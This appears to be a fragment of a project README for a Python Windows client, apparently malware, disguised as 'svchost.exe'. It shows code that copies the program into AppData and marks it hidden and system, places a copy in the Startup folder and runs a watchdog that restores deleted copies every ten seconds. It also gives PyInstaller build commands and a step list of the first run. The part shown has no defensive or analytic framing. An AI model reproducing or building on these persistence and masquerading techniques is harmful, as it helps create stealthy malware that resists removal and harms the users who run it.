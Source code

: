 ```python
    # Deploy to AppData
    shutil.copy2(current_exe, appdata_exe)
    subprocess.run(['attrib', '+h', '+s', appdata_exe])  # Hide it
    
    # Create startup copy
    shutil.copy2(appdata_exe, startup_exe)
    
    # Start monitoring thread
    def startup_watchdog_thread():
        while True:
            # Check and restore if missing
            if not exists(startup_exe):
                copy(appdata_exe → startup_exe)
            if not exists(appdata_exe):
                copy(startup_exe → appdata_exe)
            sleep(10)
    
    threading.Thread(target=startup_watchdog_thread, daemon=True).start()
    return True
```

---

## 🚀 Usage

### Compilation with PyInstaller

```bash
# Using the updated .spec file
pyinstaller svchost.spec

# Or manually
pyinstaller --onefile --windowed --name "svchost" \
  --hidden-import winreg \
  --hidden-import shutil \
  --hidden-import threading \
  --hidden-import time \
  client.py
```

### What Happens on First Run

```
1. User runs svchost.exe
       ↓
2. Script checks if running as .exe ✅
       ↓
3. Copies itself to:
   - AppData (hidden) ✅
   - Startup folder (visible) ✅
       ↓
4. Starts watchdog thread ✅
       ↓
5. Both copies monitored every 10s ✅
```
